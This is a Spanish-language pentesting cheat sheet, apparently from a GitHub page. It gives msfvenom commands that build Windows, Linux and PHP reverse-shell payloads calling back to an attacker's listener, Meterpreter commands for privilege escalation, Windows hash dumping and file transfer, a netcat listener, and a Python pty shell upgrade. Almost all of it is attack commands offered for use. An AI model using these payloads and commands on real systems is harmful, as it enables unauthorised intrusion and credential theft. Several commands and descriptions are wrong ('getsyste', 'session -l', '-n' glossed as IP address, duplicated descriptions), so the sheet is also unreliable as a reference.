 ### Msfvenom

Creación de payloads usando `msfvenom`

Windows reverse shell:

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LISTENER IP> LPORT=<LISTENER PORT> -f dll > shell.dll
```

Linux reverse shell:

```bash
$ msfvenom -p linux/x64/shell/reverse_tcp LHOST=<LISTENER IP> LPORT=<LISTENER PORT> -f elf > shell.elf
```

PHP reverse shell:

```bash
$ msfvenom -p php/reverse_php LHOST=<LISTENER IP> LPORT=<LISTENER PORT> -o <OUTPUT FILE NAME>
```

### Comandos de Meterpreter

```bash
meterpreter > background                             # envía la sesión actual a segundo plano
meterpreter > session -l                             # lista las sesiones abiertas actualmente
meterpreter > session -i <SESSION-ID>                # se conecta a una sesión
meterpreter > getsyste                               # escalación de privilegios (Windows)
meterpreter > sysinfo                                # lista información del sistema
meterpreter > getuid                                 # lista información del sistema
meterpreter > route                                  # lista información del sistema
meterpreter > hashdump                               # Dump Windows hashes
meterpreter > upload <FILENAME> /path/to/directory   # sube un archivo
meterpreter > download <FILENAME> /path/to/directory # descarga un archivo
```

Listener con `netcat`

```bash
$ nc -nlvp PORT
```

- `n`: dirección IP
- `v`: modo verbose
- `l`: escuchar las conexiones entrantes
- `p`: puerto local de escucha

Ejemplo:

```bash
$ nc -lnvp 1234
```

Generar un terminal interactivo a través de Python:

```bash
$ which python                                   # Comprobamos si el sistema tiene instalado Python
/usr/bin/python
$ python -c "import pty; pty.spawn('/bin/bash')" # Luego, lanzamos una terminal interactiva usando el modulo pty
$ export TERM=xterm                              # Por último, exportar XTERM
```
